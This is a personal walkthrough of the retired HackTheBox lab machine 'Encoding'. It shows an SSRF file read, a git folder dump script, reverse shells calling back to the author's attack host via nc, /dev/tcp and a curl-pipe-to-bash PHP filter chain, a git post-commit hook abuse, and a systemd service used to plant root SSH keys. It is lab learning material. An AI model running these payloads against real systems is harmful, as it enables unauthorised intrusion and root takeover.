# HTB - Encoding

I choosed a retired machine [Encoded](https://app.hackthebox.com/machines/Encoding) from HTB, as it was the one featured in the [IppSec](https://youtu.be/iyGvnmkx1es) video i watched.    
In some technical parts, ive also used this walkthrough as a guide:   
https://0xdf.gitlab.io/2023/04/15/htb-encoding.html   

*Even with the walkthrough and guide, this was a very hard machine for me.*   



**Recap of rules:**   
[It is allowed to publish solutions for retired machines](https://help.hackthebox.com/en/articles/5188925-streaming-writeups-walkthrough-guidelines)

I followed the IppSec video pretty straight forward to complete this and tried to explain what i did, to understand and learn what i really did.   
**Most parts are straight from the walkthrough.**   

After connecting to the VPN and making it so that i can only access the needed network AKA the HTB machine, i started with a full scan with nmap:    

```bash
┌──(kali㉿kali)-[~]
└─$ ping google.com
^C
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ ping 1.1.1.1   
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
^C
--- 1.1.1.1 ping statistics ---
4 packets transmitted, 0 received, 100% packet loss, time 3096ms

                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ ping 10.10.11.198
PING 10.10.11.198 (10.10.11.198) 56(84) bytes of data.
64 bytes from 10.10.11.198: icmp_seq=1 ttl=63 time=68.4 ms
64 bytes from 10.10.11.198: icmp_seq=2 ttl=63 time=73.3 ms
64 bytes from 10.10.11.198: icmp_seq=3 ttl=63 time=119 ms
^C
--- 10.10.11.198 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2008ms
rtt min/avg/max/mdev = 68.433/87.043/119.424/22.981 ms
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ nmap -A -p- 10.10.11.198
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-19 12:27 EEST
Nmap scan report for 10.10.11.198
Host is up (0.060s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: HaxTables
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.94 seconds
```

SSH in port: 22   
Apache webserver in port: 80   

Next i ran Gobuster `dir` and `vhost` enumarations:   
`dir` gave nothing special, but `vhost` showed interesting 403.   
[403explanation](https://www.google.com/search?client=firefox-b-e&q=html+403)    

```bash
Found: Image.haxtables.htb Status: 403 [Size: 284]
Found: image.haxtables.htb Status: 403 [Size: 284]
```

http://10.10.11.198/   
Lead me to a website   



*Note:   
As always, i had traffic proxied through Zap or Burp. Zap in this case.*

In API page, it shows the `http://api.haxtables.htb/` which i added to my `hosts` along with the other urls. like this:

```bash
10.10.11.198 api.haxtables.htb haxtables.htb image.haxtables.htb
```
Api page:

http://api.haxtables.htb/v3/tools/string/index.php

In Zap, turned on the intercept, and pasted that url to browser.   

It gave me this:    


I copy pasted it to `Requester` and sent a test request




I needed parameters `action` and `data`, which was showing in the API site. 



The same thing shows if i intercept the conversion from website:    





So now i knew:   
```bash
"uri_path":"/v3/tools/string"
Is the same as:
http://api.haxtables.htb/v3/tools/string/index.php
```

Next, there was also a parameter:   
```bash
   'file_url' : 'http://example.com/data.txt'
```

And like IppSec did, i tested to send a request to my listener, and it got accepted:   



So i could add a `"file_url":"file:///etc/passwd"`
To possible, convert the file to hex.   
It worked, i got a hex, so next i wanted to convert it from hex to plain text:   

In Zap, i found `Encode/Decode/Hash...`   



Which did the trick, i got the `etc/passwd` as plain text:   

   

`/etc/passwd`
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
svc:x:1000:1000:svc:/home/svc:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:113:120:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

root and svc has shell accesses.   

Okay, so next as there was 2 interesting subdomains, `api` which i could access and gave an empty page, and `image` which would give me 403.    

I tested the same method as for the `passwd` file, the indexes of `html` `api` and `image`

`/var/www/html/index.php` gave me the source code of the index page.   

`/var/www/api/index.php` gave me an emply php:  
```bash
<?php

?>
```

`/var/www/image/index.php` 
```bash
<?php 

include_once 'utils.php';

include 'includes/coming_soon.html';
?>
```

`utils.php`
```bash
<?php

// Global functions

function jsonify($body, $code = null)
{
    if ($code) {
        http_response_code($code);
    }

    header('Content-Type: application/json; charset=utf-8');
    echo json_encode($body);

    exit;
}

function get_url_content($url)
{
    $domain = parse_url($url, PHP_URL_HOST);
    if (gethostbyname($domain) === "127.0.0.1") {
        echo jsonify(["message" => "Unacceptable URL"]);
    }

    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTP);
    curl_setopt($ch, CURLOPT_REDIR_PROTOCOLS, CURLPROTO_HTTPS);
    curl_setopt($ch,CURLOPT_CONNECTTIMEOUT,2);
    curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
    $url_content =  curl_exec($ch);
    curl_close($ch);
    return $url_content;

}

function git_status()
{
    $status = shell_exec('cd /var/www/image && /usr/bin/git status');
    return $status;
}

function git_log($file)
{
    $log = shell_exec('cd /var/www/image && /ust/bin/git log --oneline "' . addslashes($file) . '"');
    return $log;
}

function git_commit()
{
    $commit = shell_exec('sudo -u svc /var/www/image/scripts/git-commit.sh');
    return $commit;
}
?>
```

This was interesting. So to assume, and of course as following the IppSec video, there is a .git folder present, as there are git commands used in the same folder.    
I assume, based on the .php above, that `/var/ww/image/.git` is present. 

`/var/www/image/.git/
```
import requests
import sys
def from_hex(data_json):
    return bytes.fromhex(data_json)

json_data = {
    'action': 'str2hex',
    'file_url' : f'file:///var/www/image/.git/{sys.argv[1]}'

}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
with open(sys.argv[2], "wb") as f:
    f.write(from_hex(dict(response.json())['data']))
```


**Straight from the walkthrough:**   
https://0xdf.gitlab.io/2023/04/15/htb-encoding.html#shell    

Next i downloaded made a PHP Filter Chain Generator    
https://github.com/synacktiv/php_filter_chain_generator
*Note to self, i have no idea what that is*

Made a reverse shell file, on my local machine and served it with webserver:   
```bash
┌──(kali㉿kali)-[~]
└─$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.114 9002 >/tmp/f" > test 

┌──(kali㉿kali)-[~]
└─$ sudo python -m http.server 80                                                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.114 - - [19/Apr/2023 15:13:39] "GET /test HTTP/1.1" 200 -
10.10.11.198 - - [19/Apr/2023 15:17:53] "GET /test HTTP/1.1" 200 -

```

With the PHP Filter Chain Generator, i created a string, which would `curl` to my local webserver, and run the reverse shell bash file.   
The output of this is reaaaally long.    
```bash
python3 php_filter_chain_generator.py --chain "<?php system('curl http://10.10.14.114/test|bash');?>"
```

I pasted the output of the chain generator to Zap's request tab, and sent it to the server.   

And got shell:   
```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.114] from (UNKNOWN) [10.10.11.198] 54950
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Spawned an improved shell (bash) and did the lookout:   
```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.114] from (UNKNOWN) [10.10.11.198] 47604
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@encoding:~/image/actions$ ^Z
zsh: suspended  nc -nlvp 9002
```
```bash
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nlvp 9002

www-data@encoding:~/image/actions$ export TERM=xterm
www-data@encoding:~/image/actions$ ls
action_handler.php  image2pdf.php
www-data@encoding:~/image/actions$ ls -la
total 12
drwxr-xr-x 2 svc svc 4096 Apr 19 12:21 .
drwxr-xr-x 7 svc svc 4096 Apr 19 12:21 ..
-rw-r--r-- 1 svc svc  191 Apr 19 12:21 action_handler.php
-rw-r--r-- 1 svc svc    0 Apr 19 12:21 image2pdf.php
www-data@encoding:~/image/actions$ cat image2pdf.php 
www-data@encoding:~/image/actions$ cd ..
www-data@encoding:~/image$ cd ..
www-data@encoding:~$ ls
api  html  image
www-data@encoding:~$ whoami
www-data
www-data@encoding:~$ sudo -l
Matching Defaults entries for www-data on encoding:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on encoding:
    (svc) NOPASSWD: /var/www/image/scripts/git-commit.sh
www-data@encoding:~$ 
```

```bash
www-data@encoding:~/image/scripts$ cat git-commit.sh 
#!/bin/bash

u=$(/usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image ls-files  -o --exclude-standard)

if [[ $u ]]; then
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image add -A
else
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image commit -m "Commited from API!" --author="james <james@haxtables.htb>"  --no-verify
fi
```

I tried the same method that IppSec tried, to add the ssh keys via the git commit. But ended up using another reverse shell.   

As in many machines in HTB, there is a scheduled jobs to clear edits, delete user stuff etc,i made a reverse shell test script to tmp, which i wanted to ran after a git commit is made.
`/tmp/test`
```bash                            
#!/bin/sh
bash -c 'bash -i >& /dev/tcp/10.10.14.114/9004 0>&1'
```

Then i copied the script i made, to `.git` folder as a `post-commit` script, added the permissions needed, add a commit there for `hostname` , and commited it as a `svc`  
```bash
www-data@encoding:~/image$ cp /tmp/test .git/hooks/post-commit
www-data@encoding:~/image$ chmod 755 .git/hooks/post-commit
www-data@encoding:~/image$ git --work-tree /etc add /etc/hostname 
www-data@encoding:~/image$ sudo -u svc /var/www/image/scripts/git-commit.sh
[master 7b9b680] Commited from API!
 1 file changed, 1 insertion(+)
 create mode 100644 hostname
```

Again i had and `nc` listener on my attack machine ready, and it got the shell access.   
```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9004        
listening on [any] 9004 ...
connect to [10.10.14.114] from (UNKNOWN) [10.10.11.198] 37412
svc@encoding:/var/www/image$ ls
ls
actions
assets
includes
index.php
scripts
utils.php
svc@encoding:/var/www/image$ cd /home/svc
cd /home/svc
svc@encoding:~$ ls
ls
user.txt
svc@encoding:~$ cat u
cat user.txt 
a**********
```
User flag obtained, and i was in as a `svc`

What i could do as a `sudo`    
```bash
svc@encoding:~$ sudo -l
sudo -l
Matching Defaults entries for svc on encoding:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on encoding:
    (root) NOPASSWD: /usr/bin/systemctl restart *
svc@encoding:~$ 

```
So i could restart `systemd` tasks.   

At this point, i created a new, a temporary ssh key in my local machine, which i then added to `/home/scv/.ssh/authorized keys` manually, so i could get in with `ssh` for more stable shell, as this session was very laggy and buggy.   

After i was back in as `svc`:    

Made a task to `/tmp/privesc.service` copy authorized keys from "my" = `svc` home, to `/root/.ssh/authorized_keys` 
```bash                                       /tmp/privesc *                                                
[Service]
Type=oneshot
ExecStart=/bin/bash -c 'cp /home/svc/.ssh/authorized_keys /root/.ssh/authorized_keys'
[Install]
WantedBy=multi-user.target

```

Then i just copied it to systemd folder and restarted it:    
```bash
svc@encoding:~$ cp /tmp/privesc.service /etc/systemd/system/
svc@encoding:~$ sudo /usr/bin/systemctl restart privesc
```

To verify that it worked:   
Attack:
```bash
ssh -i htb_enc root@10.10.11.198
```

```bash
htb_enc = the ssh private key i created for this machine
-i the identity to use = the created key
```

And in as a root:    
```bash
  System information as of Wed Apr 19 01:33:02 PM UTC 2023

  System load:           0.0
  Usage of /:            65.7% of 4.33GB
  Memory usage:          10%
  Swap usage:            0%
  Processes:             239
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.198
  IPv6 address for eth0: dead:beef::250:56ff:feb9:5bd


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@encoding:~# cat /root/root.txt 
8***************
root@encoding:~# 
```
Root flag obtained!   



*Total time:    
Active hacking: ~9 h   
Reading and studying: ~3 h*   
